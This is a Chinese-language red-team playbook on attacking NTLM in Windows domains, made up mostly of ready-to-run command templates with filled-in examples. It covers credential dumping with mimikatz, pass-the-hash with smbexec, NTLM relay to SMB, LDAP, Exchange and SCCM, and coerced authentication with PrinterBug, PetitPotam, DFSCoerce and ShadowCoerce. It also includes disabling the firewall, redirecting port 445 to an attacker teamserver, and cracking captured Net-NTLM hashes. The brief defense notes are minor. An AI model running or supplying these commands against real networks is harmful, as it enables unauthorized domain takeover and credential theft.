










# NTLM攻击面

## PTH攻击

### 利用条件

- 获取**SYSTEM权限**或**完全管理员权限**

### 攻击方式

#### 获取HASH值

```shell
mimikatz privilege::debug
mimikatz sekurlsa::logonpasswords
```


#### 利用HASH

##### 使用exec工具进行PTH

```shell
# 模板
proxychains python3 smbexec.py <域名或主机名>/<用户名>@<目标服务器IP> -hashes <HASH值>
# 示例
proxychains python3 smbexec.py HTTPSERVER/Administrator@10.10.80.2 -hashes :e46b6afab73b88454baf2d3dd25c47f8
```


##### 使用Cobalt Strike进行PTH

- 派生一个SMB监听器



- 进行PTH（PS：若PC已打KB2871997补丁，只能使用Administrator账号进行PTH）



- 目标服务器成功上线



### 防御方式

- 使用KB2871997补丁

## NTLM Relay 攻击



### 前期准备

#### 获取当前域信息

```powershell
net config workstation
```


#### 获取DC信息

##### 使用nslookup查询

```shell
# 模板
nslookup -type=srv _ldap._tcp.<域名>
# 示例
nslookup -type=srv _ldap._tcp.redteam.com
```



##### 使用AdFind查询

```shell
AdFind.exe -sc dclist
```



##### 使用PowerView查询

```shell
powershell-import PowerView.ps1
powerpick Get-NetDomainController
```


#### 开启socks4代理

1. 使用CobaltStrike开启socks4代理端口



2. 配置proxychains为以下信息

```ini
# 模板
socks4 <teamserver服务器IP> <socks端口>
# 示例
socks4 192.168.25.132 48216
```

#### 开启SMB端口转发

##### 利用条件

- 需要管理员权限
- 中继机器开启了SMB服务（推荐使用Windows Server作为中继服务器）

##### 攻击方法

###### 使用PortBender进行端口转发

1. 上传WinDivert并关闭防火墙

```shell
netsh advfirewall set allprofiles state off
```

3. 把靶机的SMB端口重定向到teamserver

```shell
# 模板
PortBender redirect 445 <任意端口>
rportfwd <刚才的任意端口> <teamserver服务器> 445
# 示例
PortBender redirect 445 8445
rportfwd 8445 192.168.25.132 445
```



###### 使用StreamDivert进行端口转发

1. 创建配置文件，把被钓鱼终端的smb流量转发到teamserver服务器

```ini
# 模板
tcp < 445 <被钓鱼终端IP> -> <teamserver服务器IP> 445
# 示例
tcp < 445 10.10.80.1 -> 192.168.25.132 445
```

2. 开启端口转发

```shell
# 模板
StreamDivert.exe <配置文件>
# 示例
StreamDivert.exe config.txt
```

### NTLM Relay - SMB

#### 利用条件

- 目标机器关闭SMB服务端签名
- 非域控服务器默认关闭SMB服务端签名
- 注册表路径：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters（requiresecuritysignature的值为0时则关闭SMB服务端签名）


#### 攻击方式

1. 检测目标机器是否开启SMB服务端签名，若显示Message signing required则无法攻击

```shell
# ip列表扫描
proxychains nmap -sT --script smb-security-mode.nse -p 445 -iL ip.list --open
# ip段扫描
proxychains nmap -sT --script smb-security-mode.nse -p 445 10.10.10.1-4 --open
```



2. 攻击机开启ntlmrelayx监听

```shell
# 模板
proxychains python3 ntlmrelayx.py -smb2support -t smb://<目标服务器IP> --remove-mic
# 示例
proxychains python3 ntlmrelayx.py -smb2support  -t smb://10.10.80.2 --remove-mic
```


3. 使用强制认证漏洞或诱导高权限用户访问中继机器


- 成功获取目标服务器用户HASH



- 使用exec工具远程控制目标服务器

```shell
# 模板
proxychains python3 smbexec.py -no-pass <域名或机器名>/<账号>@<目标机器IP> -hashes <用户的HASH>
# 示例
proxychains python3 smbexec.py -no-pass HTTPSERVER/administrator@10.10.80.2 -hashes aad3b435b51404eeaad3b435b51404ee:b392c81b2893792b23f98da3c0471381
```


#### 防御方式

- 开启SMB服务端签名
- 注册表路径：HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters（enablesecuritysignature的值为1时则开启SMB服务端签名功能、requiresecuritysignature的值为1时则强制开启SMB服务端签名）

### NTLM Relay - LDAP

| 高权限用户              | 敏感ACL                        |
| ----------------------- | ------------------------------ |
| Enterprise admins       | DS-Replication-GetChanges      |
| Domain admins           | DS-Replication-Get-Changes-All |
| Built-in Administrators |                                |
| Backup operators        |                                |
| Account operators       |                                |

#### 攻击方式

- 详细攻击方法请看：Kerberos攻击面 > 委派 > 基于资源的约束委派 > 通过 NTLM Relay 和 CVE-2019-1040 拿下主机

#### 防御方式

- 开启ldap签名：本地安全策略 > 安全设置 > 本地策略 > 安全选项 > 网络安全:LDAP客户端签名要求

### NTLM Relay - ADCS

#### 攻击方式

- 详细攻击方法请看：ADCS攻击面 > NTLM Relay - ADCS > ESC8 or ESC11

### NTLM Relay - Exchange //TODO

#### 攻击方式

- 检测Exchange服务器是否开启NTLM认证

```shell
exchangeRelayx.exe -c -t https://ExchangeIP
```

- 攻击机开启exchangeRelayx监听

```shell
exchangeRelayx.exe -t https://ExchangeIP
```

##### 获取票据

- 使用Exchange强制认证漏洞

- 钓鱼攻击，发送钓鱼邮件使用用户访问恶意连接触发认证

### NTLM Relay - SCCM

#### 利用条件

1. 我们所在的主机是SCCM客户端
2. SCCM管理点服务器的FQDN或NetBIOS名称
3. SCCM站点的站点代码

#### 攻击方式

- 判断当前主机是否在SCCM客户端中

```shell
SharpSCCM.exe local site-info
```

- 查看当前用户的角色

```shell
SharpSCCM.exe <server> <sitecode> get class-instances SMS Admin -p CategoryNames -p CollectionNames -p LogonName -p RoleNames
```

- 查找能捕获NTLM的机器和账户

```shell
SharpSCCM.exe <server> <sitecode> get primary-user -u <username>
```

- 攻击机开启ntlmrelayx的sccm监听

```shell
ntlmrelayx.exe -smb2support -ts -ip <relay _ip> -t <target ip> -of ~/hashes.txt
```

- 触发**sccm认证**

```shell
SharpSCCM.exe <server> <sitecode> exec -d <device name> -r <relay server ip>
```

#### 防御方式

- 在SCCM管理点服务器取消勾允许连接回退到NTLM(N)
  - 站点配置→站点属性→通信→客户端通信→客户端回退到 NTLM(N)

### 强制认证漏洞

#### 域控强制认证

##### Coercer - 一箭四雕（推荐）

- 使用scan模块查看可利用的接口

```shell
Coercer scan -u '<域用户>' -p '<密码>' -d <域名> -I <ntlmrelayx监听终端IP> --http-port <ntlmrelayx监听终端的http服务端口> --smb-port <ntlmrelayx监听终端的smb服务端口> -t <目标辅域控IP> -v
```

- 使用coerce模块进行强制认证

```shell
Coercer coerce -u '<域用户>' -p '<密码>' -d <域名> -l <ntlmrelayx监听终端IP> --http-port <ntlmrelayx监听终端的http服务端口> --smb-port <ntlmrelayx监听终端的smb服务端口> -t <目标辅域控IP> -v
```

###### PrinterBug

- 使用printerbug触发辅域控进行强制认证

```shell
# 模板
proxychains python3 printerbug.py <域名>/<域用户名>:<密码>@<辅域控IP> <中继IP>
# 示例
proxychains python3 printerbug.py redteam.com/worker:worker@123@10.10.10.2 PC.redteam.com
```

###### PetitPotam

- 使用PetitPotam触发辅域控进行强制认证

```shell
# 模板
proxychains python3 petitpotam.py <中继IP> <辅域控IP>
# 示例
proxychains python3 petitpotam.py -d redteam.com -u worker01 -p 1qaz@WSX 10.10.255.1 10.10.10.2
```

###### DFSCoerce

- 使用dfscoerce触发辅域控进行强制认证

```shell
proxychains python3 dfscoerce.py -u worker -p worker@123 -d redteam.com 10.10.80.2 10.10.80.1
python3 dfscoerce.py -u username -p password -d ad.com 攻击机IP 辅域控IP
```

###### ShadowCoerce

- 使用shadowcoerce触发辅域控进行强制认证

```shell
proxychains python3 shadowcoerce.py -u worker -p worker@123 -d redteam.com 10.10.80.1 10.10.10.1
python3 shadowcoerce.py -u username -p password -d ad.com 攻击机IP 辅域控IP
```

#### Exchange强制认证

##### PrivExchange

- 使用privexchange触发Exchange服务器进行强制认证

```shell
python3 privexchange.py -u username -p password -d ad.com -ah 攻击机IP Exchange服务器IP
```

## 其他

### NTLM Info

- 使用**NTLM协议**对目标服务器进行**信息收集**

```shell
./ntlminfo smb --host <目标IP>
./ntlminfo rpc --host <目标IP>
./ntlminfo ldap --host <目标IP>
```

### Net-NTLM V1破解

- 攻击机开启**Responder**监听

```shell
python2 Responder.py -I eth0 -v --lm
```

- 受害机执行命令

```shell
net use \攻击机IP\aaa
```

- 使用**crack.sh网站**进行破解

### Net-NTLM V2破解

- 获取以下两个数据包

```
Rsponse, Error: STATUS_MORE_ROCESSING_REQUIRED, NTLMSSP_CHALLENGE
Rquest, NTLMSSP_AUTH, User: ad12\administrator
```

- 查看第一个数据包的**NTLM Server Challenge**的值

```
NTLM Server Challenge: 89d90c3455fa25fo
```

- 查看第二个数据包，获取**Domain name**、**user name**、**NTProofStr（HMAC-MD5）**的值

```
Domain name: ad12
user name: administrator
NTProofstr: b07b59c33b3cd56774a7dcgf8dc2ff47
```

- 拼接**NTLMv2 HASH**

```
username::domain:challenge:HMAC-MD5:blob
```

- 使用**hashcat**进行破解

```shell
hashcat -m 5600 username::domain:challenge:HMAC-MD5:blob password.list -o result.txt --force
```

# 鸣谢

[**mimikatz**](https://github.com/gentilkiwi/mimikatz)

[**PowerView**](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

[**nmap**](https://github.com/nmap/nmap)

[**impacket**](https://github.com/fortra/impacket)

[**ExchangeRelayX**](https://github.com/quickbreach/ExchangeRelayX)

[**ADCSKiller**](https://github.com/grimlockx/ADCSKiller)

[**Rubeus**](https://github.com/GhostPack/Rubeus)

[**SharpSCCM**](https://github.com/Mayyhem/SharpSCCM)

[**Coercer**](https://github.com/p0dalirius/Coercer)

[**PetitPotam**](https://github.com/topotam/PetitPotam)

[**DFSCoerce**](https://github.com/Wh04m1001/DFSCoerce)

[**ShadowCoerce**](https://github.com/ShutdownRepo/ShadowCoerce)

[**PrivExchange**](https://github.com/dirkjanm/PrivExchange)
